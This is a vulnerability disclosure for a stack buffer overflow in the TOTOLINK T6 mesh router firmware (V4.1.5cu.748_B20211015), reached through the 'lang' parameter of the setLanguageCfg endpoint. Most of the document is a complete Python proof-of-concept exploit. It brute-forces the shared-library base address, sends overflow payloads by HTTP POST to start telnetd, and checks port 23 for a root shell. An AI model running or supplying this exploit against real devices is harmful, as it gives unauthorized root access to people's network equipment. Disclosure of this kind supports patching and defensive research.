



# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to RCE. This vulnerability can be triggered through the topicurl ` setLanguageCfg`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `product_info` is 256 bytes.



`lang` is the param attacker control.



`sprintf` doesn't check length of `lang`. When the attacker send a malicious `lang` param, the saved ret_address will be overwrite. Lead it to execute whatever the attacker want.



Attacker can reboot the system or bruteforce the base of dynamic library to do ROP chain attack. In the POC video, the attacker turn on `telnet` to achive root shell.

# POC

```python
import requests, sys, threading, time, queue, random, struct, socket, os

MAX_ADDR = 2 ** 12
WORKER_AMOUNT = 4

START_TIME = 0

brute_queue = queue.Queue()

def worker(target_ip):
    while True:
        try:
            brute_val = brute_queue.get_nowait()
        except queue.Empty:
            break
        
        print("  [-] Trying 0x%x" % brute_val)

        url = f"http://{target_ip}/cgi-bin/cstecgi.cgi"

        brute_base = 0x77000000 
        telnetd_str_off = 0x5BA4

        brute_val = brute_val * 0x1000 + brute_base # base of /lib/libdl-0.9.33.so
        brute_val += 0x11c000

        brute_telnet_str = brute_val + telnetd_str_off

        temp = struct.pack("<I", brute_telnet_str)

        payload = b"A" * 324 + temp + b"C" * 4 + b"\x08\x88\x40"

        data = b'''
        {
            "topicurl":"setLanguageCfg",
            "lang":"%s",
            "langAutoFlag":"sad POC"
        }
        ''' % (payload)

        requests.post(url, data=data)

def check_telnet(target_ip):
    global START_TIME
    print("[+] Check telnet port !!")
    while True:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
            sock.settimeout(1)
            try:
                sock.connect((target_ip, 23))
                print(f"[+] Found !!")
                print(f"[+] Script run: {round(time.time() - START_TIME)}s")
                os._exit(0)
            except (socket.timeout, socket.error):
                continue
        time.sleep(1)

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"[-] Usage: {sys.argv[0]} target_ip")
        exit(0)

    START_TIME = time.time()
    print(f"[+] Wish me luck !!")
    
    brutes = list(range(0x10, MAX_ADDR))
    random.shuffle(brutes)

    for brute in brutes:
        brute_queue.put(brute)
    
    threads = []
    for _ in range(WORKER_AMOUNT):
        t = threading.Thread(target=worker, args=(sys.argv[1],))
        t.start()
        threads.append(t)

    t2 = threading.Thread(target=check_telnet, args=(sys.argv[1],))
    t2.start()
    threads.append(t2)

    for t in threads:
        t.join()
```

[POC 1](https://www.youtube.com/watch?v=Aio5EGlzMO8) - Turn on telnet by bruteforcing dynamic library base<br>
[POC 2](https://www.youtube.com/watch?v=jSMOeIb6dLY) - Force the system to reboot